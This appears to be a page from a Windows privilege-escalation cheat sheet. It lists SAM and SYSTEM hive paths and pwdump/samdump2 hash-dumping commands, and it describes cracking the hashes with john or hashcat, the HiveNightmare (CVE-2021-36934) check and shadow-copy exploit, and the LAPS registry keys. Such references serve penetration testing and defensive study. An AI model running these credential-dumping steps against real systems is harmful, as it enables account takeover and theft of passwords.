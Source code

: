 #### SAM and SYSTEM files

**The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The**

**user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM**

**hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on**

**HKLM/SAM.**

```
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

**Generate a hash file for John using pwdump or samdump2.**

```
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

**Either crack it with john -format=NT /root/sam.txt, hashcat or use Pass-The-Hash.**

#### HiveNightmare

**CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in**

**Windows 10 and 11 as a non-administrator user**

**Check for the vulnerability using icacls**

```
C:\Windows\System32> icacls config\SAM
config\SAM BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX) <-- this is wrong - regular users should not have read access!
```

**Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives**

**from it.**

#### LAPS Settings

**Extract HKLM\Software\Policies\Microsoft Services\AdmPwd from Windows Registry.**

**LAPS Enabled: AdmPwdEnabled**

**LAPS Admin Account Name: AdminAccountName**

**LAPS Password Complexity: PasswordComplexity**

**LAPS Password Length: PasswordLength**
